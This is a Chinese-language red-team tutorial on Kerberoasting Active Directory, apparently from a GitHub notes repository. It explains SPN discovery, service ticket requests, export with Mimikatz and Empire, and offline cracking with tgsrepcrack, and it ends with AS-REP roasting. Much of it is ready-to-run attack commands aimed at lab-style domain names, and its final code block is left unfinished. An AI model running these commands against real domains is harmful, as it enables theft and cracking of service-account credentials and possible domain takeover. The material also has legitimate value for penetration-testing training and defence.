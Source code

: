 # Kerberoast攻击

简单直白的说Kerberoast攻击，就是攻击者为了获取目标服务的访问权限，而设法破解Kerberos服务票据并重写它们的过程。这是红队当中非常常见的一种攻击手法，因为它不需要与服务目标服务进行任何交互，并且可以使用合法的活动目录访问来请求和导出可以离线破解的服务票据，以获取到最终的明文密码。之所以出现这种情况，是因为服务票据使用服务帐户的散列（NTLM）进行加密，所以任何域用户都可以从服务转储散列，而无需将shell引入运行该服务的系统中。

攻击者通常会选择那些可能设置了弱密，码破解成功率较高的票据来尝试破解。一旦攻击者成功破解出了票据，他们有时不仅仅获取的只是服务访问权限，如果服务被配置为在高权限下运行，那么整个域都将可能被攻击者拿下。这些票据可以通过考虑多种因素来识别，例如：

1. SPNs绑定到域用户账户
2. 最后一次密码设置（Password last set）
3. 密码过期时间
4. 最后一次登录（Last logon）

具体来说，Kerberoast攻击涉及以下五个步骤：

1. 服务主体名称（SPN）发现
2. 请求服务票据
3. 导出服务票据
4. 破解服务票据
5. 重写服务票据&RAM注入

- 获取SPN服务

SPN是服务器上所运行服务的唯一标识，每个使用Kerberos的服务都需要一个SPN，SPN分为两种，一种注册在AD上机器帐户(Computers)下，另一种注册在域用户帐户(Users)下

获得有价值的SPN，需要满足以下条件：

1. 该SPN注册在域用户帐户(Users)下
2. 域用户账户的权限很高

```powershell
setspn –q */*
setspn -T 域名 -Q */*

# powerview
Get-NetUser -SPN
Get-NetUser -SPN -AdminCount|Select name,whencreated,pwdlastset,lastlogon,serviceprincipalname

# powerview的Get-NetUser -SPN等同于
#  有(serverPrincipalName)这个属性的账号容易受到Kerberoast攻击
Get-NetUser | Where-Object {$_.servicePrincipalName} | fl
```

- 请求服务票据

```powershell
Add-Type -AssemblyName System.IdentityModel     # 导入模块
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "SNMP/ufc-adminsrv.dollarcorp.moneycorp.LOCAL"
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/dcorp-mgmt.dollarcorp.moneycorp.local:1433"
klist       # klist命令将列出所有可用的缓存票据
```

其他方法

```powershell
# 用Mimikatz
kerberos::ask /target:SNMP/ufc-adminsrv.dollarcorp.moneycorp.LOCAL

# 用Invoke-Mimikatz
Invoke-Mimikatz -Command '"kerberos::list"'
```

- 导出服务票据

```powershell
# Mimikatz
kerberos::list /export

# Invoke-Mimikatz
Invoke-Mimikatz -Command '"kerberos::list /export"'


# Empire有一个模块可以自动完成Kerberos服务票据提取任务
usemodule credentials/mimikatz/extract_tickets
```

- 破解服务票据

python脚本tgsrepcrack是Tim Medin Kerberoast工具包的一部分，可以通过提供的密码列表来破解Kerberos票据。

```powershell
python tgsrepcrack.py /root/Desktop/passwords.txt PENTESTLAB_001.kirbi
```

Lee Christensen开发了一个名为extractServiceTicketParts的python脚本，它可以为我们提取服务票据的哈希值，以及一款Go语言编写的哈希破解器tgscrack ，两者可以配合使用。

```powershell
python extractServiceTicketParts.py PENTESTLAB_001.kirbi
```

- 获取Kerberoast主体的用户

```powershell
. .\PowerView_dev.ps1
Get-DomainUser -PreauthNotRequired -Verbose # 获取用户名

Get-ASREPHash请求可破解的加密部分
. .\ASREPRoast\ASREPRoast.ps1
Get-ASREPHash -UserName VPN35user -Verbose  # 获取加密部分

在kali中破解

```

